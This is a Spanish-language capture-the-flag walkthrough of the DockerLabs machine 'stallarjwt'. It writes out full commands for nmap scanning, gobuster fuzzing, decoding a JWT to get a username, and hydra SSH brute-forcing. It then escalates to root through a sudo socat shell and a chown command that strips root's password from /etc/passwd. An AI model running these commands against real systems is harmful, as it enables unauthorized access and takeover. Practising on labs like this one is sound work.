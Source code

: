 Maquina: stallarjwt
Nivel: Facil
Proposito:
Objetivo:
Imagenes/Logo.png
Primero se descarga la maquina .zip vulnerable de la pagina dockerlab y lo descompremi con el comando unzip stallarjwt.zip y lo despliego con el comando: sudo bash auto_deploy.sh stellarjwt.tar
Imagenes/Capturas.png
Se procede a confirmar si tenemos activa la maquina vulnerable con un ping -c1 172.17.0.2
Imagesnes/Capturas_1.png
Con la herramienta de nmap buscaremos los puertos abiertos: sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt y encuento el puerto 22 SSH y el 80 http una posible pagina web
Imagesnes/Capturas_2.png
Con mi scrito perseonalizable extraigo los puetor importantes extractPorts allPorts.txt y con la herramienta de namp intento buscar mas informacion como versiones de los servicios que estan corriendo en los puertos
Imagesnes/Capturas_3.png
Al entrar a la pagina web no encontre informaciòn para poder atacar o alguna vulnerabilidad asi que procedo a hacer fuzzing en busca de mas informaciòn
Imagesnes/Capturas_4.png
Use la herramienta de gobuster con el comando gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt
y encontre:
/index.html 
/universe 
Imagesnes/Capturas_5.png
El index/htmll es la pagina principal
EL /universe: http://172.17.0.2/universe/ nos muestra una imagen
Imagesnes/Capturas_6.png
Descargue la imagen con: wget http://172.17.0.2/universe/universe.jpg y revise su metada con: exiftool universe.jpg pero no encontre nada importtante.
Imagesnes/Capturas_7.png
Al reviar el codigo fuente de la pagina pude notar un comentario diferente que no parecia un hash busque que significaba el nombre de la maquina y me aparecio que es una API y al investigar con chatgtp pude saber que parece ser un JSON Web Token (JWT)
Imagesnes/Capturas_8.png
Use un Encode: https://jwt.io/ que me dio el usuario: neptuno
Imagesnes/Capturas_9.png
EN la pagina pregunata ¿Qué astrónomo alemán descubrió Neptuno? Johann Gottfried Galle
Con esta informaciòn puedo intentar saber las credenciales de SSH
Cre con nano contraseña.txt las posibles contraseñas que puede ser el nombre de Johann Gottfried Galle ya que copie y pegue verificar si no hay espacios con el comando: cat -A contraseña.txt y utilice hydra -l neptuno -P contraseña.txt ssh://172.17.0.2 -t20 y me mostro las credenciales [22][ssh] host: 172.17.0.2   login: neptuno   password: Gottfried
Imagesnes/Capturas_10.png
Con las credenciales se gano acceso al servico de SSH y se procede a buscar una forma de escalar privilegios
Imagesnes/Capturas_11.png
Con el comando ls -la encontre un .txt con la contraseña de nasa: Eisenhower y denstro de este usuario con el comando sudo -l encontre que se puede escalar con: (elite) NOPASSWD: /usr/bin/socat  esta vulnerabilida la use con el comando:sudo -u elite /usr/bin/socat stdin exec:/bin/bash y pude comvertirmer en elite, ahora con sudo -l me muestra que pueda escalar con (root) NOPASSWD: /usr/bin/chown con el comando: 
sudo chown elite:elite /etc/ && sudo chown elite:elite /etc/passwd && echo "$(cat /etc/passwd | sed 's/root:x:/root::/g')" > /etc/passwd && su
Imagesnes/Capturas_15.png
Imagesnes/Capturas_16.png

